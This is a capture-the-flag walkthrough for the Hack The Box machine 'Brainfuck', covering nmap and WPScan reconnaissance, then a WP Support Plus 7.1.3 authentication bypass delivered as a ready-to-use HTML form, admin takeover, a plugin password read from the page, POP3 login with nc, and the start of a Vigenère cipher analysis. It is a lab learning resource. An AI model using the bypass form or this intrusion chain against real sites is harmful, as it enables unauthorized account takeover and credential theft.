

# Recon
## nmap
```console
root@kali:~# nmap -sC -sV 10.10.10.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 07:08 EDT
Nmap scan report for brainfuck.htb (10.10.10.17)
Host is up (0.24s latency).
Not shown: 995 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
|_  256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL PIPELINING USER CAPA SASL(PLAIN) RESP-CODES TOP AUTH-RESP-CODE
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: SASL-IR have LITERAL+ IMAP4rev1 LOGIN-REFERRALS ID post-login OK listed capabilities IDLE ENABLE Pre-login AUTH=PLAINA0001 more
443/tcp open  ssl/http nginx 1.10.0 (Ubuntu)
|_http-generator: WordPress 4.7.3
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title: Brainfuck Ltd. &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Not valid before: 2017-04-13T11:19:29
|_Not valid after:  2027-04-11T11:19:29
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.38 seconds
```

We have SSH, 3 mail protocols (SMTP, POP3, IMAP) and HTTPS ports open

## Port 443
From the Nmap output, we know that its a `WordPress 4.7.3` website and the commonName is `brainfuck.htb` and the alternative names are `www.brainfuck.htb` and `sup3rs3cr3t.brainfuck.htb`   
first of all lets add them to `/etc/hosts` file



now lets open the website in a browser, we get a security warning because it a https website   
before clicking on `Accept the Risk and Continue`, lets click on `View Certificate` to see if there is something interesting in the TLS certificate that Nmap missed   



we found the email of certificate issuer `orestis@brainfuck.htb`   
lets continue and visit the webpage



we just get a nginx welcome page on `10.10.10.17`, so lets visit `https://brainfuck.htb` and `https://www.brainfuck.htb`



`www.brainfuck.htb` just redirects us back to `brainfuck.htb`   
we can see a post about `SMTP integration` by the user `admin`   
as its a wordpress site so we will run `WPScan` but before that lets visit `https://sup3rs3cr3t.brainfuck.htb`



its a forum website with only a test discussion visible

# WordPress
## WPScan
I always enumerate the users and all plugins using `-e u,ap` because there are a lot of vulnerable wordpress plugins   
as this is a https website, we will have to use `--disable-tls-checks` to skip SSL certificate verification    
```console
root@kali:~# wpscan --url https://brainfuck.htb -e u,ap --disable-tls-checks
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.11
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://brainfuck.htb/ [10.10.10.17]
[+] Started: Mon Jul  6 08:04:26 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: nginx/1.10.0 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://brainfuck.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] https://brainfuck.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://brainfuck.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.3 identified (Insecure, released on 2017-03-06).
 | Found By: Rss Generator (Passive Detection)
 |  - https://brainfuck.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.7.3</generator>
 |  - https://brainfuck.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.7.3</generator>

[+] WordPress theme in use: proficient
 | Location: https://brainfuck.htb/wp-content/themes/proficient/
 | Last Updated: 2020-07-03T00:00:00.000Z
 | Readme: https://brainfuck.htb/wp-content/themes/proficient/readme.txt
 | [!] The version is out of date, the latest version is 3.0.25
 | Style URL: https://brainfuck.htb/wp-content/themes/proficient/style.css?ver=4.7.3
 | Style Name: Proficient
 | Description: Proficient is a Multipurpose WordPress theme with lots of powerful features, instantly giving a prof...
 | Author: Specia
 | Author URI: https://speciatheme.com/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0.6 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://brainfuck.htb/wp-content/themes/proficient/style.css?ver=4.7.3, Match: 'Version: 1.0.6'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] wp-support-plus-responsive-ticket-system
 | Location: https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/
 | Last Updated: 2019-09-03T07:57:00.000Z
 | [!] The version is out of date, the latest version is 9.1.2
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 7.1.3 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://brainfuck.htb/wp-content/plugins/wp-support-plus-responsive-ticket-system/readme.txt

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:03 <=====================================================================================================================================> (10 / 10) 100.00% Time: 00:00:03

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] administrator
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Mon Jul  6 08:04:49 2020
[+] Requests Done: 55
[+] Cached Requests: 6
[+] Data Sent: 13.091 KB
[+] Data Received: 239.483 KB
[+] Memory used: 215.93 MB
[+] Elapsed time: 00:00:22
```

wpscan found 2 users `admin` and `administrator`   
it also found an out of date plugin `wp-support-plus-responsive-ticket-system` version `7.1.3`   
lets use searchsploit to search for an exploit for this plugin version  

## Searchsploit
```console
root@kali:~# searchsploit wp support plus responsive ticket system 7.1.3
------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                            |  Path
------------------------------------------------------------------------------------------ ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escalation    | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection           | php/webapps/40939.txt
------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

we found 2 exploits, I checked the `SQL Injection` one first but I realized that we should be authenticated for this exploit  
just reading the first line of `Privilege Escalation` exploit, I knew that we have to use this exploit because it can let us login as any user without the password


## Exploit
Copy the html form to a file `exploit.html` and change the website to `brainfuck.htb` and the username to `admin`
```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
  Username: <input type="text" name="username" value="admin">
  <input type="hidden" name="email" value="sth">
  <input type="hidden" name="action" value="loginGuestFacebook">
  <input type="submit" value="Login">
</form>
```

now either drag and drop the file in firefox or use `firefox exploit.html` command to open the file in firefox   



submitting the form, sets the cookies for admin login and redirects us to a blank page   



now if we goto `/wp-admin`, we are already logged in as admin



## Easy WP SMTP Plugin
If I have admin login on WordPress, I usually go to `Appearance->Editor` to check if I can edit php files included with the theme to get code execution   
here the theme files are not writable so that's not the way to go



going to the `Plugins` tab, we can see there is an active plugin for SMTP integration `Easy WP SMTP`



going to the settings of this plugin we found a password in bullets form, that we can read using Inspect Element



 

we got the SMTP password for orestis --> `kHGuERB29DNiNE`

# POP3 (port 110)
As this machine has POP3 which has easy to understand commands, rather than setting up a mail client, we will interact with POP3 using raw commands   
with a simple google search, we can easily find all the POP3 commands



```console
root@kali:~# nc -nv 10.10.10.17 110
(UNKNOWN) [10.10.10.17] 110 (pop3) open
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
STAT
+OK 2 1491
LIST
+OK 2 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
        id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
Message-ID: <00edcd034a67f3b0b6b43bab82b0f872@brainfuck.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

https://brainfuck.htb

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during the install.
Log in here: https://brainfuck.htb/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/
.
RETR 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
        id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
.
QUIT
+OK Logging out.
```

We found 2 emails for orestis, one of which contains creds for the secret forum on `https://sup3rs3cr3t.brainfuck.htb`   
`orestis:kIEnnfEKJ#9UmdO` 


# Vigenere Cipher
After logging in as orestis, we get access to 2 more discussion threads



from the discussion it looks like they are about to exchange the SSH private key in another discussion thread



it looks like everything in this thread is gibberish but if we look carefully we can see there is a URL which clearly indicates that it is some kind of substitution cipher   
in the previous thread, every post from orestis contain `Orestis - Hacking for fun and profit` at the end   
even in this thread his posts have something similar at the end but it is different in every post   
vigenere cipher is the most common substitution cipher that can encode same plaintext string into different ciphertext based on its position in the message   

We know the plainText and cipherText so we can easily get the key   

- Encode --> PT + Key = CT  (when encoding, we just add the key to the plainText to get the cipherText)    
- Decode --> PT = CT - Key  (when decoding, we just subtract the key from cipherText to get the plainText)   
- Decode --> Key = CT - PT  (similarly to get the key, we can subtract plainText from cipherText)

This means to get the key, we can decode the cipherText using plainText as key   
There are many online tools for vigenere cipher, we will use [cryptii.com](https://cryptii.com/pipes/vigenere-cipher)   
we need to remove the hyphen and spaces from cipherText and plainText

